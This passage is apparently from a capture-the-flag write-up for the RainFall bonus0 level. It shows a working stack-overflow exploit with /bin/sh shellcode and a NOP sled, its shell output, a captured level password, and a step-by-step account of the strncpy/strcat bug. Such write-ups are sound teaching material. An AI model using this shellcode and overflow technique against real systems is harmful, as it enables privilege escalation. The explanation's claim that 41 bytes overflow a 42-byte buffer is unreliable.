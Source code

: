 ### 16. Execute the Exploit
```bash
bonus0@RainFall:~$ (python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "A" * 9 + "\xd0\xe6\xff\xbf" + "B" * 7'; cat) | ./bonus0
 - 
 - 
AAAAAAAAABBBBBBB AAAAAAAAABBBBBBB
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

**Success Analysis:**
1. **First input**: 100 NOPs + shellcode placed in large buffer, strncpy() copies first 20 bytes (NOPs) with no null terminator
2. **Null-termination bypass**: First buffer lacks null terminator, enabling overflow
3. **Second input**: 9 padding bytes reach return address position
4. **Return address overwrite**: 0xbfffe6d0 points into NOP sled
5. **String concatenation overflow**: strcat() writes beyond main buffer boundary
6. **Control hijacking**: Return jumps to NOP sled, slides to shellcode
7. **Shell execution**: Shellcode executes /bin/sh with elevated privileges

### 17. Understanding the Execution Flow
```bash
# Step-by-step execution:
1. First p() call:
   - Reads NOP sled + shellcode into large buffer
   - strncpy() copies 20 NOPs to buffer1 (no null terminator)

2. Second p() call:
   - Reads attack payload into large buffer  
   - strncpy() copies first 20 bytes to buffer2 (with null terminator)

3. pp() string operations:
   - strcpy(main_buffer, buffer1): Copies 20 NOPs (no null term)
   - Adds " " separator
   - strcat(main_buffer, buffer2): Concatenates attack payload
   - Total: 20 + 1 + 20 = 41 bytes, overflows 42-byte buffer

4. Return to main():
   - Corrupted return address (0xbfffe6d0) loaded
   - Jumps to NOP sled in large buffer
   - Slides to shellcode, executes /bin/sh
```

## String Exploitation Analysis

### 18. Understanding the Vulnerability Class
